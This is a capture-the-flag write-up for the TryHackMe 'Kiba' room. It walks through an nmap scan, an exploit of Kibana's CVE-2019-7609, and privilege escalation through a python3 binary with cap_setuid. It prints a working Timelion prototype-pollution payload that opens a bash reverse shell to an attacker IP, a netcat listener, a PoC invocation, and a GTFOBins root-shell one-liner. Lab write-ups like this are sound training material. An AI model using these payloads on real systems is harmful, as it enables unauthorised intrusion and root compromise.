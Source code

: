 # ROOM : KIBA

Hello, i'm Frygg, today i show you my little contribution to the word of cybersecurity. Here a little write up for the room [Kiba](https://tryhackme.com/room/kiba) on TryHackMe, hope it can help someone ;).

In this write up, you can see :

1. Somes usefull tools !
2. Exploiting a RCE using one CVE and obtaining acces to the server
3. Root the machine !!!

This is my first write up, it may be modified !

## 1. Enumeration

First of all, i have to gather somes informations about this boxe.
I run nmap scan to get open port, version etc.

`nmap -sC -sV {ip}`

3 ports is open as you can see in the result :

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 16:19 EDT
Nmap scan report for 10.10.223.77
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:28 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:27 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:27 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.94%I=7%D=8/20%Time=64E27588%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kibana\r\nk
SF:bn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6
SF:c\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnection:\
SF:x20close\r\nDate:\x20Sun,\x2020\x20Aug\x202023\x2020:20:27\x20GMT\r\n\r
SF:\n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x
SF:20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\nconte
SF:nt-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-
SF:cache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x20Sun,
SF:\x2020\x20Aug\x202023\x2020:20:27\x20GMT\r\n\r\n{\"statusCode\":404,\"e
SF:rror\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLS
SF:essionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalSe
SF:rverCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSessio
SF:nReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not
SF:\x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d049232
SF:83ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=utf-8\
SF:r\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnection:\x
SF:20close\r\nDate:\x20Sun,\x2020\x20Aug\x202023\x2020:20:28\x20GMT\r\n\r\
SF:n{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Fo
SF:und\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LDAPB
SF:indReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOptions,1C
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.40 seconds

```

WebServer is empty, just the default apache page. Lets look to the port 5601, who is Kibana.

Kibana is a data visualization dashboard for Elasticsearch.

## 2. Research of exploit !
After a quick analyze, we found Kibana is in version 6.5.4.

After one quick search on google, we found one CVE about Kibana : **CVE-2019-7609**
This CVE can lead to a RCE (Remote Code Execution).

On a shell, i run a listenner on port 4444 :

`nc -lnvp 4444`

On the Timelion, we can use this payload :

`
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/{MY_IP}/4444 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
`

Then run the code and load the canvas page. We get the reverse shell.

Or we can use this [PoC](https://github.com/LandGrey/CVE-2019-7609)

`python2 CVE-2019-7609-kibana-rce.py -u http://10.10.223.77:5601 -host {MY_IP} -port 4444 --shell`

And we have just to wait on the listenner (previously runned with netcat)

Nice, we have the reverse shell on the web server !

`THM{xx_xxxx_xxxxx_xxxxxx_xxxx_xxx}`

## 3. Privilege escalation !

After quick research of config files or something usefull, i found something interesting in kiba's home.
One folder is named **.hackmeplease**, in this folder, we have one file, its a python3 binarie.

We have to search capabilites to see if we can exloit it:

`getcap -r / 2<dev/null`

We found this capabilite who is exploitable to get the root :

`/home/kiba/.hackmeplease/python3 = cap_setuid+ep`

This binarie have **cap_setuid+ep** attribute, wich means this binarie can set his UID. 
We can use it to generate a shell with UID 0 and getting a shell with root privileges.

On [GTFOBins](https://gtfobins.github.io/) we have the right payload to get the root :

```/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'```

We have the root !

This boxe is now rooted !

`THM{xxxxxxxxx_xxxxxxxxxx_xxxxx_xxxxxxxxxxxx}`

